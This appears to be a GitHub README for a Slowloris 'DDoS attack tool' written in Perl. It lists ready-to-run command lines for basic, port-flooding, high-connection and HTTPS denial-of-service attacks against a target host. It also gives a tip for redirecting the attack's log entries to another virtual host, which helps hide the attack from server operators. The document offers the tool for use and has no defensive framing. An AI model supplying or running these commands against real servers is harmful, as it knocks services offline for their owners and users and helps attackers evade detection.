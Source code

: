 # slowloris-ddos-attack-tool
I think everyone know what is Slowloris XD

Source From https://github.com/llaera

## How To Use Slowloris
### Basic Attack
Run slowloris on command line
```perl slowloris.pl -dns example.target.com```

### Port FLooding
Run slowloris on command line
```perl slowloris.pl -dns www.example.com -port 80```

### Number of Port Attack
Run slowloris on command line
```perl slowloris.pl -dns www.example.com -port 80 -num 500 ```

### HTTPS Attack
Run slowloris on command line
```perl slowloris.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https```

There is another build in trick you might want to know. If you know that the Server is running several virtual hosts you can send the log to an other vhost than you are attacking!

```perl slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com ```

